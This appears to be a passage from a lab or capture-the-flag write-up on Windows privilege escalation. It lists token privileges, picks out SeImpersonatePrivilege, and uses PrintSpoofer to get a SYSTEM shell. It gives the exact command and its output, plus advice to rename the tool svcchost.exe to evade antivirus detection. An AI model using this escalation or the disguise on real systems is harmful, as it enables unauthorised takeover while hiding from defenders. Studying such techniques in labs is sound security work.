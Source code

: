 ```
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
                                     Unknown SID type S-1-5-82-0   Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Awesome, we can see we have access to 3 privileges.

* SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
* SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
* SeCreateGlobalPrivilege       Create global objects                     Enabled

After some [research](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/), I will be exploiting the vulnerability in SeImpersonatePrivilege which is possible because service accounts are required to run with elevated privileges using this.

We can use [Printspoofer](https://github.com/itm4n/PrintSpoofer) to exploit for escalation. Note, this will get flagged as a virus or malware.

Rename it to avoid detection to svcchost.exe

Use put to get the exploit onto the server, navigate to the directory it was put in (C:\inetpub\wwwroot\nt4wrksv), and then execute it to spawn a SYSTEM cmd with the shell that we have.

```
svcchost.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening ...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
